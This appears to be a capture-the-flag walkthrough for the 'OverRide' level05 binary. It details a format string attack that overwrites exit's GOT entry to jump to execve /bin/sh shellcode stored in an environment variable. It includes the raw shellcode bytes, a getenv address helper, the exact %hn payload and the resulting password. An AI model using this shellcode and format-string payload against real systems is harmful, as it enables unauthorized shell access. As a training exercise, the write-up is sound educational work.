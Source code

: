 # Level 05

Once logged in, you will see a binary.

```
$ ssh 164.92.144.154 -p 4242 -l level05
	   ____                  ____  _     __
	  / __ \_   _____  _____/ __ \(_)___/ /__
	 / / / / | / / _ \/ ___/ /_/ / / __  / _ \
	/ /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
	\____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 164.92.144.154:4242
level05@164.92.144.154's password:

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
level05@OverRide:~$ ls
level05
```

Okay, let's run the program

```
level05@OverRide:~$ ./level05
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2level05@OverRide:~$
level05@OverRide:~$
aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2level05@OverRide:~$ ./level05
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2level05@OverRide:~$
level05@OverRide:~$ ./level05
AAAAAAAAAAAAAaaaaaaaaaaaAAaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
level05@OverRide:~$
```

So by looking at the execution result of the program, two things can be observed,
- the uppercase alphabets will be turned into lower cases alphabets
- if the length of input exceeds, the output will only print 99 characters

By looking at the decompiled source (or with the gdb), the function uses the `printf`, so there is a chance for using format string attack.

```
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  printf
0x08048340  printf@plt
0x08048350  fgets
0x08048350  fgets@plt
0x08048360  __gmon_start__
0x08048360  __gmon_start__@plt
0x08048370  exit
0x08048370  exit@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  main
0x08048520  __libc_csu_init
0x08048590  __libc_csu_fini
0x08048592  __i686.get_pc_thunk.bx
0x080485a0  __do_global_ctors_aux
0x080485cc  _fini
```

In above, the call for `exit()` is used, and we can overrite the exit() in the GOT(Global Offset Table) section.

To find the GOT address of exit, the following command needs to be proceed:

```
level05@OverRide:~$ objdump -R level05 | grep exit
080497e0 R_386_JUMP_SLOT   exit
level05@OverRide:~$
```

We now have an address for exit, `0x080497e0`, we need to provide a payload that overwrites a shellcode.

```
# a shellcode
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80

# store create payload that stores shellcode

export PAYLOAD=$(python -c "print '\x90' * 1000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")

```

With the shellcode stored into the environment variable, a program can be writeen to access the address of the shellcode

```
# /tmp/getenv.c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
	printf("env address: %p\n", getenv(argv[1]));
	return (0);
}
[...]
level05@OverRide:/tmp$ gcc -m32 getenv.c -o getenv  # for 32bit
level05@OverRide:/tmp$ ./getenv PAYLOAD
env address: 0x7fffffffebbd

### remember, the env. variable will change of the execution point, so let's run the program on different location ###
level05@OverRide:~$ /tmp/getenv PAYLOAD
0xffffdefd
```

We now have address we want(=`exit()`) to overwrite: `0x080497e0`, with the address of the stack `0xffffdefd`

Because the address too big, we overwrite the target 2 bytes each time. (the first 4 bytes of address can be ignored)

for the first 2 bytes, we input the data `0xdefd - 0x8 = 0xebb5(57077)` (because what the payload will prit out is 8 bytes=> XXXX that creates the offset of the printf already, and each address is 4 bytes XXXXXXX), then we overwrite the next two bytes `0xffff - 0xdefd = 0x2102 (8450)`

let's try out

```
level05@OverRide:~$ echo $(python -c 'from struct import pack; print(pack("I", 0x080497e0) + pack("I", 0x080497e2) + "%57077u%10$hn" + "%8450u%11$hn")') | ./level05
[...]
[...]
[...]
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
level05@OverRide:~$
```
